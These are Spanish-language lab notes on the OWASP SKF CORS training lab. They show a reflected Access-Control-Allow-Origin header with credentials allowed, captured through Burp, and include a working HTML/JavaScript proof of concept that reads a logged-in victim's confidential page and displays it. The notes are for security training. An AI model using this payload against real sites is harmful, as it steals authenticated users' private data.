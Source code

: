 Que es?



ejecutaremos el comando:
	docker pull blabla1337/owasp-skf-lab:cors

Interceptamos la peticion de la pagina y la recargamos
la mandamos a repeater de burpsuite y le damos a send
HTTP/1.0 200 OK

Content-Type: text/html; charset=utf-8

Content-Length: 10293

Access-Control-Allow-Credentials: true

Access-Control-Allow-Origin: * (observamos esto)

Vary: Cookie

Server: Werkzeug/0.14.1 Python/3.6.9

Date: Wed, 16 Apr 2025 18:49:13 GMT

observamos que tiene un * en Access-Control-Allow-Origin y eso empieza a darnos indicios de CORS


Aqui agregamos en la peticion Origin: https://test.com
![[Pasted image 20250416130320.png]]
y en Access Control Allow nos volca la pagina que le indicamos

Crearemos un script que obtenga lo que esta viendo el admin con python

   1   │ <script>
   2   │   var req = new XMLHttpRequest();
   3   │   req.onload = reqListener;
   4   │   req.open('GET', 'http://localhost:5000/confidential', true);
   5   │   req.withCredentials = true;
   6   │   req.send();
   7   │   function reqListener() {
   8   │     document.getElementById("stoleInfo").innerHTML = req.responseText;
   9   │ 
  10   │   }
  11   │ </script>
  12   │ <center><h1>Has sido ha, esta es la informacion que he obtenido</h1></c
       │ enter>
  13   │ 
  14   │ <p id="stoleInfo"></p>


COMO SERIA SI ESTUVIERA SANITIZADO

Si dentro de la estructura del serividor esta configurado Allow-Origin
y origin esta seteado

Sino esta seteado y esta como * y Allow-Origin no esta en el codigo y configurado se puede explotar esa vulnerabilidad



